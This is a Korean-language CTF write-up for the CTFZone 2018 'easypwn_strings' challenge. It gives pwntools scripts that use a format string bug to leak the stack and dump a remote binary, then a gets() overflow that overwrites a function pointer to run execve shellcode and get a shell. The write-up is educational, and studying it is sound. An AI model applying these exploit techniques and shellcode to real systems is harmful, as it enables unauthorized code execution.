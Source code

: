 ```yaml
---
layout: post
title: "[CTFZone 2018] easypwn_strings Write-up"
image: /img/ctfzone_2018.png
tags: [CTF, write-up, pwnable]
---
```


<style>
.effect {
      display: inline-block;
      box-shadow: 0px 0px 20px -5px rgba(0, 0, 0, 0.8);
}
</style>

## 요약
`pwnable` `FSB`

---
### Vuln

> nc pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one 1234

```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
```
1번 메뉴를 선택하고 문자열을 입력하면 문자열의 길이가 출력되고, 3번 메뉴를 선택하고 문자열과 숫자를 입력하면 해당 문자열의 뒤에서 입력한 숫자 만큼을 잘라서 출력해준다. 2번 메뉴는 구현되어 있지 않았다.
```
You choise - 3
	Use str int
	good choise
	Set string:
%x
	Set number:
0
	Delete 0 ending symbols
	Result:
ff906700
```
3번 메뉴에서 문자열을 출력할 때 `포맷 스트링 버그 (FSB)` 가 발생한다.
<br><br><br>

### Solve
포맷 스트링 버그를 이용해서 스택에 있는 값들을 출력한다.
```python
from pwn import *

for j in range(0, 20):
        r = remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        test = ''
        for i in range(j*20,j*20+20):
                test += '%%%d$p.' % i

        print test
        r.sendline(test)
        r.recvuntil(':')
        r.sendline('0')
        r.recvuntil(':')
        r.recvuntil('\n')
        d = r.recvuntil('\n')
        print d
```
```
[+] Opening connection to pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one on port 1234: Done
%200$p.%201$p.%202$p.%203$p.%204$p.%205$p.%206$p.%207$p.%208$p.%209$p.%210$p.%211$p.%212$p.%213$p.%214$p.%215$p.%216$p.%217$p.%218$p.%219$p.
0x80496d4.0xf77b7000.0xffeac818.0x8048e07.0x1.0xffeac8c4.0x3.0x33.0xf77b73dc.0xffeac830.(nil).0xf761d637.0xf77b7000.0xf77b7000.(nil).0xf761d637.0x1.0xffeac8c4.0xffeac8cc.(nil).
```
출력 된 값들을 살펴보면 0x80496d4 나 0x8048e07 과 같이 코드 영역의 주소로 보이는 값들을 발견할 수 있었고, 이를 토대로 <span style="color:#cf3030">0x8048000</span> 을 <span style="color:#cf3030">base address</span> 로 설정하여 바이너리 덤프를 시도했다.
<br>
그 결과는 다음과 같다.
```
0000000: 0045 4c46 0101 0100 0000 0000 0000 0000  .ELF............
0000010: 0200 0300 0100 0000 2086 0408 3400 0000  ........ ...4...
0000020: 6c3b 0000 0000 0000 3400 2000 0700 2800  l;......4. ...(.
0000030: 2000 1d00 0600 0000 3400 0000 3480 0408   .......4...4...
0000040: 3480 0408 e000 0000 e000 0000 0500 0000  4...............
0000050: 0400 0000 0300 0000 1401 0000 1481 0408  ................
...
```
ELF 시그니쳐로 보이는 `00(7F)45 4c46` 로 시작된다. 이렇게 쭉 덤프를 뜨면 되는데 중간에 null 바이트가 많아서 너무 오래걸린다. ELF 헤더 중 0x18 오프셋 부분을 보면 <span style="color:#cf3030">0x08048620</span> 이라는 값이 쓰여있는데 이 값이 <span style="color:#cf3030">엔트리 포인트</span>의 메모리 주소이다.<br>
이 주소를 시작으로 코드 섹션만 덤프 떠올 수 있다.
```python
from pwn import *

def conn():
        return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

def dump(adr,frmt='p'):
        r.recvuntil('StrRemoveLastSymbols')
        r.recvuntil('\n')
        r.sendline('3')
        r.recvuntil(':')
        r.recvuntil('\n')

        leak_part = "|%19${}|".format(frmt)
        out = leak_part.ljust(4*10,"A")+"EOF_"+p32(adr)
        r.sendline(out)
        r.sendline('0')
        r.recvuntil('Result:')
        return r.recvuntil("|A")[:-2].split("|")[1]

        start_addr = 0x8048620

        while True:
                try:
                        fd = open("dumped_file","a")
                        r = conn()
                        data = dump(start_addr,'s')
                        print "|0x%08x|%s|" % (start_addr,data)
                        if data == "(null)" or data == "":
                                fd.write("\x00")
                                start_addr += 1
                        else:
                                fd.write(data+"\x00")
                                start_addr += len(data)+1
                        fd.close()
                except:
                        print "[!] execption"
                        break
```
<img src="/img/ctfzone_easypwn_1.PNG" class="effect">
<br>

덤프 뜬 바이너리를 IDA로 열어보면 `1, 2, 3` 메뉴 외에 `X, T, S` 라는 메뉴가 있는 것을 확인 할 수 있다. 하나씩 사용해보면 되는데 그 중에서도 `T` 메뉴를 사용하면 바이너리와 라이브러리를 다운 받을 수 있는 링크를 알려준다.. 개꿀
```
Let's choose string operation!
	1. StrLen
	2. SubStrRemove
	3. StrRemoveLastSymbols
	T
You choise - T
	Cheat ^^
	Are you surprised?? (y or n)
y
https://ctf.bi.zone/files/babypwn
https://ctf.bi.zone/files/babylibc
```
<br>

이제 IDA로 다시 분석!
<img src="/img/ctfzone_easypwn_2.PNG" class="effect">
처음엔 `S` 를 수상하게 보고 포맷 스트링 버그를 이용해서 0x80493E0 의 값을 조작하려고 했지만 메뉴 하나를 실행시키면 프로그램이 끝나는 구조라서 그럴 수 없었다. 대신 `X` 혹은 `T` 메뉴를 사용 했을 시 `gets()` 함수를 통해서 `overflow` 가 발생한다. 0x80492E0 에 값을 쓸 수 있는데, 그 뒤쪽에 있는 0x80493E0 이 <span style="color:#cf3030">함수 포인터</span>로 사용된다. 0x80492E0 에 쉘 코드를 올리고 overflow 를 발생시켜 0x80493E0 을 쉘 코드의 주소로 바꿔주면 끝! (rwx 권한이 있었다)
<br>

```python
from pwn import *

def conn():
	return remote('pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one', 1234)

shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

r = conn()
r.sendline("T")
r.sendline(("y"+shellcode).ljust(256,"\x90")+p32(0x80492e0+1))

r.interactive()

```
```
Let's choose string operation!
    1. StrLen
    2. SubStrRemove
    3. StrRemoveLastSymbols
 You choise - T
    Cheat ^^
    Are you surprised?? (y or n)
$ ls
flag.txt
main.c
strings
strings.sh
$ cat flag.txt
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
```
ctfzone{e4$Y_pVVn_$Tr1№6_Fu№C}
<br>

### Ref
https://www.youtube.com/watch?v=XuzuFUGuQv0
https://ko.wikipedia.org/wiki/ELF_%ED%8C%8C%EC%9D%BC_%ED%98%95%EC%8B%9D
